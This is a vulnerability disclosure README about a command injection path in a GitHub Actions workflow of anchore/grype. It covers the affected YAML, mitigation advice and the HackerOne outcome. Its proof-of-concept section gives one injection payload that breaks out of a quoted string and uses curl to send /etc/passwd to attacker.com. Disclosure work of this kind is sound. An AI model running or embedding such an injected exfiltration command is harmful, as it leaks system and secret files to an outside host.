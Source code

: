 
# GitHub Actions RCE Vulnerability (Informative Report)

This repo documents a **command injection vulnerability** identified in the GitHub Actions workflow of the [`anchore/grype`](https://github.com/anchore/grype) repository. The bug was responsibly reported to GitHub via HackerOne.

Although the report was marked **Informative** due to scope policy, the vulnerability path was technically valid and involved unsafe user input passed into an unvalidated GitHub Actions workflow.

## 🐞 Summary

**Repository Affected:** `anchore/grype`

**Vulnerability Type:** Command Injection via Improper Input Validation (CWE-20 / CWE-94)

**Impact:** The vulnerability could allow an attacker to execute arbitrary commands on GitHub-hosted runners and potentially exfiltrate environment secrets.

**Disclosure:** Submitted to GitHub Bug Bounty via HackerOne. Closed as Informative due to scope rules.

## 📄 Vulnerability Details

### 🧠 Vulnerable File
```
.github/workflows/update-anchore-dependencies.yml
```

### 🔥 Vulnerable Input Path
```yaml
workflow_dispatch:
  inputs:
    repos:
      description: "List of dependencies to update"
      required: true
      type: string

jobs:
  update:
    steps:
      - uses: anchore/workflows/.github/actions/update-go-dependencies@main
        with:
          repos: ${{ github.event.inputs.repos }}
```

This input is passed **unsanitized** into a GitHub action. If used in a shell or CLI context in the downstream `update-go-dependencies` action, it could result in remote code execution (RCE).

## 💣 PoC (Theoretical Injection Payload)

```
"; curl http://attacker.com --data @/etc/passwd; echo "
```

## 📸 Screenshots

See `/screenshots` folder for proof:
- Vulnerable `workflow_dispatch` input path
- Injection location traced
- Action file existence check

## 🔐 Security Recommendations

- Escape user input with `${{ toJSON(...) }}` or quote usage in shell
- Validate `repos` against a strict regex (e.g., `^[a-zA-Z0-9._/-]+$`)
- Avoid passing untrusted values into scripts or shell commands

## 📬 Disclosure Outcome

This issue was reported via the [GitHub Bug Bounty Program](https://bounty.github.com) on HackerOne.

> ✅ The vulnerability was **acknowledged as valid** and marked **“Informative”**, meaning the technical issue was real, but not eligible for bounty due to scope limitations.

### 📨 Summary of GitHub’s Response:
```
Thank you for your report. The workflow you analyzed belongs to a third-party project (anchore/grype), which is outside the paid scope of GitHub's bounty program. However, your report is informative and demonstrates a valid risk pattern.
```



## 📎 Report Outcome

- **Platform:** HackerOne → GitHub Program
- **Report ID:** #3214599 (Closed as Informative)
- **GitHub Message:** Out of paid bounty scope + marked as informative
- **Maintainers invited to patch via `security.md` link**

## 📁 Repo Structure



## 🧠 Notes

This was a valid issue from a CI/CD and DevSecOps perspective. The techniques used here are applicable to many public GitHub Actions projects.

**Researcher:** Abrar

For educational use only. Always follow responsible disclosure practices.
